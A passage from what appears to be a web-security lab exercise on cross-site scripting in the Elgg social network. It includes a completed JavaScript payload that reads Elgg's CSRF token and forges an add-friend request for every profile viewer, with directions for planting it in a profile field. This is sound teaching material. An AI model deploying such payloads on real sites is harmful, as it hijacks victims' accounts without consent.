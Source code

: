In this task, we need to write a malicious JavaScript program that forges HTTP requests directly from the victim's browser, without the intervention of the attacker. The objective of the attack is to add Samy as a friend to the victim. We have already created a user called Samy on the `Elgg` server (the user name is `samy`).

To add a friend for the victim, we should first find out how a legitimate user adds a friend in `Elgg`. More specifically, we need to figure out what are sent to the server when a user adds a friend. Firefox's `HTTP Header Live` inspection tool can help us get the information. It can display the contents of any HTTP request message sent from the browser. From the contents, we can identify all the parameters in the request. Once we understand what the add-friend HTTP request look like, we can write a JavaScript program to send out the same HTTP request. We provide a skeleton JavaScript code that aids in completing the task.

```html
<script type="text/javascript">
    window.onload = function () {
        // Set the timestamp and secret token parameters
        // Note that elgg is a global variable so that we can directly use elgg here.
        var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
        var token="&__elgg_token="+elgg.security.token.__elgg_token;

        //Construct the HTTP request to add Samy as a friend.
        // var attackerGuid=...;   //FILL IN
        // var sendurl=...;    //FILL IN
        var attackerGuid=59; // use “edit profile” to get your guid
        var sendurl="http://www.seed-server.com/action/friends/add?friend=59" + token + ts;


        //Create and send Ajax request to modify profile
        if(elgg.session.user.guid!=attackerGuid){
            var Ajax=new XMLHttpRequest();
            Ajax.open("GET", sendurl, true);
            Ajax.setRequestHeader("Host", "www.seed-server.com");
            Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
            Ajax.send();
        }
    }
</script>
```

Refer to [Asynchronous JavaScript And XML](https://www.w3schools.com/js/js_ajax_intro.asp) (AJAX) for usage of AJAX. AJAX allows web pages to be updated asynchronously by exchanging data with a web server behind the scenes. This means that it is possible to update parts of a web page, without reloading the whole page.

The above code should be placed in the `"About Me"` field of Samy's profile page. This field provides two editing modes: Editor mode (default) and Text mode. The Editor mode adds extra HTML code to the text typed into the field, while the Text mode does not. Since we do not want any extra code added to our attacking code, the Text mode should be enabled before entering the above JavaScript code. This can be done by clicking on `"Edit HTML"`, which can be found at the top right of the `"About Me"` text field.

**Question.** If the `Elgg` application only provide the Editor mode for the `"About Me"` field, i.e., you cannot switch to the Text mode, can you still launch a successful attack?
